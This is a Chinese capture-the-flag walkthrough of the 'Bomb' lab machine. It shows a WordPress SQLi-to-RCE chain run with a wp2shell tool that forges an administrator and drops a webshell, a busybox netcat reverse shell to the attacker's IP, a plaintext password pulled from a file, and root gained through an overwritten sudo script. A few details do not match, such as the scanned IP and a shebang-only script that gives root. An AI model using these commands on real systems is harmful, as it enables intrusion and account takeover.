

# Bomb_Ahiz

靶机：Bomb  作者：12138  靶机ID:719

```
kali 10.228.0.145
靶机 10.228.0.101
```

# 信息收集

```
nmap -p- 10.228.0.101     
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-20 22:19 EDT
Nmap scan report for 10.228.0.251
Host is up (0.0036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:00:AC:20 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 15.13 seconds

```

‍

‍

```
wpscan --url http://10.228.0.101/ --enumerate u,vp,vt --random-user-agent
```

发现12138用户 但是爆破密码无果

# 80端口

```
 name="generator" content="WordPress 7.1-beta1"
```

发现版本 

‍

```
C:\Users\周\Downloads\Bomb.ova\_net_repro\wp2shell-scanner>python wp2shell.py --scan http://10.228.0.101 -j

  _____          _         ____
 |__  /___ _ __ | |__  _ _/ ___|  ___  ___
   / // _ \ '_ \| '_ \| '__\___ \ / _ \/ __|
  / /|  __/ |_) | | | | |   ___) |  __/ (__
 /____\___| .__/|_| |_|_|  |____/ \___|\___|
          |_|       wp2shell  -  ZephrSec

[*] scanning 1 host(s) for wp2shell exposure ...
[
  {
    "host": "http://10.228.0.101",
    "version": "7.1-beta1",
    "batch_route": true,
    "severity": "RCE",
    "cve": "CVE-2026-63030 (+ CVE-2026-60137)",
    "verdict": "VULNERABLE (RCE, CVE-2026-63030 (+ CVE-2026-60137))"
  }
]

```

‍

```
使用 wp2shell.py --check 对目标进行时间盲注验证。脚本分别发送条件为假的请求与条件为真的 SLEEP 请求，返回时间存在明显差异：fast 为 0.375s，slow 为 1.343s，时间差约 0.968s。因此确认目标存在由 CVE-2026-63030 触发的 CVE-2026-60137 时间盲注漏洞。
```

```
python wp2shell.py --check http://10.228.0.101 --delay 0.5 --repeats 1
```

```
C:\Users\周\Downloads\Bomb.ova\_net_repro\wp2shell-scanner>python wp2shell.py --check http://10.228.0.101 --delay 0.5 --repeats 1

  _____          _         ____
 |__  /___ _ __ | |__  _ _/ ___|  ___  ___
   / // _ \ '_ \| '_ \| '__\___ \ / _ \/ __|
  / /|  __/ |_) | | | | |   ___) |  __/ (__
 /____\___| .__/|_| |_|_|  |____/ \___|\___|
          |_|       wp2shell  -  ZephrSec

[*] confirming blind SQLi (time-based differential) ...
[*] baseline fast(1=0)=0.375s  slow(1=1)=1.343s  margin=0.968s
[+] VULNERABLE — blind time-based SQLi confirmed (CVE-2026-60137 via CVE-2026-63030)
```

```
python wp2shell.py --rce http://10.228.0.101 --cmd id --authorized -y
```

```
利用 wp2shell.py 的 --rce 模式对目标执行命令。脚本首先确认 SQLi，随后通过 oEmbed cache 与 changeset re-entry 链伪造 WordPress 管理员账号，并上传自清理插件执行系统命令。执行 id 后返回 uid=104(apache)，说明已获得目标 Web 服务用户 apache 权限。
```

```
C:\Users\周\Downloads\Bomb.ova\_net_repro\wp2shell-scanner>python wp2shell.py --rce http://10.228.0.101 --cmd id --authorized -y

  _____          _         ____
 |__  /___ _ __ | |__  _ _/ ___|  ___  ___
   / // _ \ '_ \| '_ \| '__\___ \ / _ \/ __|
  / /|  __/ |_) | | | | |   ___) |  __/ (__
 /____\___| .__/|_| |_|_|  |____/ \___|\___|
          |_|       wp2shell  -  ZephrSec

[*] target: http://10.228.0.101
[1/6] confirming blind SQLi (time-based differential) ...
[+] SQLi confirmed (fast=0.303s slow=4.301s)
[2/6] seeding oEmbed caches (read-only SQLi -> real DB writes) ...
[3/6] recon: reading DB table prefix via blind SQLi ...
[+] table prefix: wp_
[3/6] recon: locating an administrator account ...
[+] admin ID: 1
[3/6] recon: recovering seeded oEmbed cache post IDs ...
[+] cache IDs: [164, 165, 166]
[4/6] forging changeset elevation + re-entrant parse_request, creating administrator ...
[+] administrator created: w2s_07461e6ca3be@wp2shell.local
[5/6] logging in and deploying self-cleaning webshell ...
[+] forged administrator: w2s_07461e6ca3be : W2s!9kmtkVh7w1ao6J2s4H2p
[6/6] executing command: id
[+] command output:

uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)
[*] cleanup: removed dropped webshell plugin
```

弹shell

```
python wp2shell.py --rce http://10.228.0.101 --cmd "busybox nc 10.228.0.145 6666 -e /bin/sh" --authorized -y
```

‍



‍

```
Bomb:/opt/wordpress$ id
uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)

```

```
Bomb:/opt/wordpress$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
klogd:x:100:101:klogd:/dev/null:/sbin/nologin
apache:x:104:106:apache:/var/www:/sbin/nologin
ll104567:x:1000:1000::/home/ll104567:/bin/bash
mysql:x:101:102:mysql:/var/lib/mysql:/sbin/nologin

```

发现ll104567用户 

搜索该用户相关文件：获取到用户密码

```
Bomb:/opt/wordpress$ find / -xdev -user ll104567 -type f 2>/dev/null
/usr/bin/12138.txt


Bomb:/opt/wordpress$ cat /usr/bin/12138.txt
Fxa6DZEOnghp20V5aXRP

```

‍

# ll104567用户

‍

```
Bomb:/opt/wordpress$ su ll104567
Password: 
Bomb:/opt/wordpress$ id
uid=1000(ll104567) gid=1000(ll104567) groups=1000(ll104567)

Bomb:~$ cat user.txt 
flag{user-bea7e45c177a6909a5a5c6138616b7e3}
```

# 枚举 sudo 权限

```
Bomb:/opt/wordpress$ sudo -l
Matching Defaults entries for ll104567 on Bomb:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ll104567:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ll104567 may run the following commands on Bomb:
    (ALL) NOPASSWD: /home/ll104567/12138.sh

```

‍

```
mv 12138.sh 12138.sh.bak
echo '#!/bin/sh' > 12138.sh

chmod +x 12138.sh


sudo /home/ll104567/12138.sh
```

‍

```
Bomb:~$ sudo /home/ll104567/12138.sh
/home/ll104567 # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/home/ll104567 # cat /root/root.txt 
flag{root-8c7a3f1b9d4e2f6a0c5b8d3e1f7a4c9b}


```
